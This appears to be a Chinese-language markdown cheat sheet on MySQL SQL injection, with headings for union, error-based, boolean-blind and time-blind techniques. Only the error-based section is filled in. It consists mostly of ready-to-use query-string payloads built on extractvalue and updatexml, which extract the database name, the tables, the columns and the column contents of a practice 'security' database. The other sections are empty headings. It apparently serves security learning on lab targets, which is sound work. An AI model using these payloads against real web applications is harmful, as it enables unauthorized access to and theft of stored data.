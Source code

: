 ## SQL注入之MySQL

### 一、联合注入


### 二、报错注入
1、使用extractvalue函数</br>

**-- （1）查询数据库名字（用户user()；版本version()）**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))%23
```
**-- （2）查询数据库有多少个表**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e))%23
```
**-- （3）查询数据库的表名，limit后面第一个数字表示第几个表**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))%23
```
**-- （4）查询列名，limit后数字表示第几列**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e))%23
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails'),0x7e))%23
```
**-- （5）查询表里面某列的内容**
```SQL
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(id) from security.emails),0x7e))%23
```
2、使用updatexml函数</br>
```SQL
-- （1）查询数据库名字，数据库名字为security（用户user()；版本version()）
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23		

-- （2）查询数据库有多少个表
?id=1' and updatexml(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23	

-- （3）查询数据库的表名，limit后第一个数字表示第几个表
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)%23	

-- （4）查询列名，limit后数字表示第几列
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e),1)%23	

-- （5）查询表里面某列的内容
?id=1' and updatexml(1,concat(0x7e,(select group_concat(email_id) from security.emails),0x7e),1)%23	
```



### 三、布尔盲注


### 四、时间盲注


